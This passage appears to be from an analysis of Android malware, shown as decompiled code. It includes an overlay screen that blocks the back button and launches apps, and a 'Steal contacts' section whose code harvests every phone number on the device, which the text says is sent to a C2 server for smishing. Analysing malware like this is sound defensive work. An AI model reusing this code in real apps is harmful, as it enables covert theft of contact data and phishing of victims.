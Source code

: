 ```cs
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onResume(Activity activity0) {
        InjectComponent.viewerActivityVisible = true;
        LifeCycleListener viewerActivityInterfaceImpl$LifeCycleListener0 = this.lifeCycleListener;
        if(viewerActivityInterfaceImpl$LifeCycleListener0 != null) {
            viewerActivityInterfaceImpl$LifeCycleListener0.onResume();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onStop(Activity activity0) {
        super.onStop(activity0);
        activity0.finish();
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public boolean overrideBackPress(Activity activity0) {
        return true;
    }

    private void startAppById(Context context0, String s) {
        try {
            context0.startActivity(context0.getPackageManager().getLaunchIntentForPackage(s));
        }
        catch(ActivityNotFoundException unused_ex) {
        }
    }
}
```

## Steal contacts

The malware collect the contacts stored in the victim's device and send it to C2 server. And smishing the stolen numbers.

```cs
public static ContactsComponent get() {
        return ContactsComponent.instance;
    }

    private List getContactList() {
        ArrayList arrayList0 = new ArrayList();
        ContentResolver contentResolver0 = this.context().getContentResolver();
        Cursor cursor0 = contentResolver0.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        if((cursor0 == null ? 0 : cursor0.getCount()) > 0) {
            while(cursor0 != null && (cursor0.moveToNext())) {
                String s = cursor0.getString(cursor0.getColumnIndex("_id"));
                cursor0.getString(cursor0.getColumnIndex("display_name"));
                if(cursor0.getInt(cursor0.getColumnIndex("has_phone_number")) <= 0) {
                    continue;
                }

                Cursor cursor1 = contentResolver0.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[]{s}, null);
                while(cursor1.moveToNext()) {
                    arrayList0.add(cursor1.getString(cursor1.getColumnIndex("data1")));
                }

                cursor1.close();
            }
```